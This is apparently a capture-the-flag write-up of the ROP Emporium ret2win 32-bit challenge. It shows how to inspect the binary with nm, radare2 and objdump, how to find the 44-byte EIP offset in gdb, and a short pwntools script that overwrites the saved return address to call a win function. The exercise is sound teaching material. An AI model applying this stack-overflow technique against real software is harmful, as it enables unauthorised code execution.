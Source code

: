 ```yaml
---
layout: post
title: ROP Emporium Challenge 0 - ret2win (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win32

Link: https://ropemporium.com/challenge/ret2win.html


--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win32 | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win32
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win32
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_4.jpg)


## 2. Calculating EIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win32
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_5.jpg)


With 45 we overwrite only 1 byte, so the offset is 44:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 32 bits binaries of Rop Emporium.


## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win32 | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_7.jpg)

This address can be found also using gdb (*info functions*).

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_8.jpg)



## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

The result:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_9.jpg)